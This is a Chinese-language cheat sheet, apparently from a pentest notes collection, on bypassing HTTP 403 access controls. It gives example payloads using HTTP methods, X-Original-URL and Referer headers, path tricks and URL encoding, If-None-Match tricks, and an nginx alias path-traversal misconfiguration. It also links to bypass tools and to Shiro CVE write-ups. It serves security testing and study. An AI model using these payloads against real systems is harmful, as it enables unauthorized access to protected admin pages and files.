 # 绕过访问

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**相关文章**
- [Tips : Bypass Etag If-None-Match](https://anggigunawan17.medium.com/tips-bypass-etag-if-none-match-e1f0e650a521)

**相关案例**
- [Bypassing 403 Protection To Get Pagespeed Admin Access](https://sapt.medium.com/bypassing-403-protection-to-get-pagespeed-admin-access-822fab64c0b3)

**相关工具**
- [iamj0ker/bypass-403](https://github.com/iamj0ker/bypass-403) - 一个用来绕过403报错的简单脚本
- [Dheerajmadhukar/4-ZERO-3](https://github.com/Dheerajmadhukar/4-ZERO-3) - 403/401 Bypass Methods + Bash Automation
- [devploit/dontgo403](https://github.com/devploit/dontgo403) - Tool to bypass 40X response codes.

**相关资源**
- [GrrrDog/weird_proxies](https://github.com/GrrrDog/weird_proxies) - Reverse proxies cheatsheet

**Tips**
- protocol based bypass
    ```bash
    http://web.com/admin    # ===> 403
    https://web.com/admin   # ===> 200
    ```

- method based bypass
    ```bash
    OPTIONS
    GET
    HEAD
    POST
    PUT
    DELETE
    TRACE
    TRACK
    CONNECT
    PROPFIND
    PROPPATCH
    MKCOL
    COPY
    MOVE
    LOCK
    UNLOCK
    VERSION-CONTROL
    REPORT
    CHECKOUT
    CHECKIN
    UNCHECKOUT
    MKWORKSPACE
    UPDATE
    LABEL
    MERGE
    BASELINE-CONTROL
    MKACTIVITY
    ORDERPATCH
    ACL
    PATCH
    SEARCH
    ARBITRARY
    ```

- HTTP Header based bypass
    ```bash
    GET /admin HTTP/1.1
    Host: web.com   # ===> 403

    GET /anything HTTP/1.1
    Host: web.com
    X-Original-URL: /admin  # ===> 200

    GET /anything HTTP/1.1
    Host: web.com
    Referer: https://web.com/admin  # ===> 200

    GET https://qq.com HTTP/1.1
    Host: web.com   # ===> SSRF
    ```

- url character/parameter bypass
    ```bash
    /admin/panel            # ===> 403
    /admin/monitor          # ===> 200

    /admin/monitor/;panel   # ===> 302
    ```
    ```bash
    web.com/admin           # ===> 403

    web.com/ADMIN           # ===> 200
    web.com/admin/          # ===> 200
    web.com//admin/         # ===> 200
    web.com/admin;          # ===> 200
    web.com/admin/.         # ===> 200
    web.com/admin/../admin  # ===> 200
    web.com/admin../admin   # ===> 200
    web.com/../admin        # ===> 200
    web.com//admin//        # ===> 200
    web.com/./admin/./      # ===> 200
    web.com/./admin/..      # ===> 200
    web.com/;/admin         # ===> 200
    web.com/.;/admin        # ===> 200
    web.com//;//admin       # ===> 200
    web.com/admin.json      # ===> 200(ruby)

    web.com/%2f/admin/      # ===> 200
    web.com/%2e/admin       # ===> 200
    web.com/%252e/admin     # ===> 200
    web.com/%ef%bc%8fadmin  # ===> 200

    web.com/admin           # ===> 302
    web.com/test/admin      # ===> 200
    web.com/admin..;/       # ===> 200
    ```

- 304 bypass
    ```bash
    GET /admin HTTP/1.1
    Host: target.com
    If-None-Match: W/"123-dASdsa2d2212e4d21"

    GET /admin HTTP/1.1
    Host: target.com
    ```

    ```
    If-None-Match: W/"123-dASdsa2d2212e4d21"

    If-None-Match: W/"null"
    If-None-Match: W/"123-dASdsa2d2212e4d21" a
    ```

---

## nginx

**相关文章**
- [Common Nginx Misconfiguration leads to Path Traversal](https://systemweakness.com/common-nginx-misconfiguration-leads-to-path-traversal-d58701e997bc) - 当 nginx 配置不当时,可使用类似 `/test../private/secret.html` 进行目录穿越

```
root /var/www/html/public;

location /test/ {
    alias /var/www/html/public/;
}

✔  /test/public.html
❌  /test../private/secret.html
```

```
root /var/www/html/public;

location /test {
    alias /var/www/html/public/;
}

✔  /test/public.html
✔  /test../private/secret.html
```

---

## Tomcat

**相关文章**
- [CVE-2020-5902——关于;号绕过认证技巧总结](https://mp.weixin.qq.com/s/JnI4f3R5JZqhLFv_fTQ_0A)
- [tomcat对url请求中的特殊字符处理 分析](https://blog.csdn.net/qq_41891666/article/details/110392483)

---

## shiro

**SHIRO-682 & CVE-2020-1957 | Shiro 权限绕过漏洞**
- 相关文章
    - [Shiro 权限绕过漏洞分析（CVE-2020-1957）](https://blog.riskivy.com/shiro-%e6%9d%83%e9%99%90%e7%bb%95%e8%bf%87%e6%bc%8f%e6%b4%9e%e5%88%86%e6%9e%90%ef%bc%88cve-2020-1957%ef%bc%89/)

**SHIRO-782 & CVE-2020-11989**
- 相关文章
    - [Apache Shiro权限绕过漏洞分析(CVE-2020-11989)](https://mp.weixin.qq.com/s/yb6Tb7zSTKKmBlcNVz0MBA)
    - [Apache Shiro 身份验证绕过漏洞 (CVE-2020-11989)](https://xlab.tencent.com/cn/2020/06/30/xlab-20-002/)'
    - [CVE-2020-11989：Apache Shiro权限绕过复现](https://mp.weixin.qq.com/s/p1UzULYPoTKf6i_Chcj2VQ)
    - [记一次Apache Shiro权限绕过实战](http://www.0dayhack.net/index.php/554/)
    - [记一次前台任意文件下载漏洞挖掘](https://xz.aliyun.com/t/10328)

**CVE-2020-17523**
- 相关文章
    - [Apache Shiro身份认证绕过漏洞复现(CVE-2020-17523)](https://mp.weixin.qq.com/s/PHBG3wQUIPSrlmX_jsSXbA)
    - [jweny/shiro-cve-2020-17523](https://github.com/jweny/shiro-cve-2020-17523)
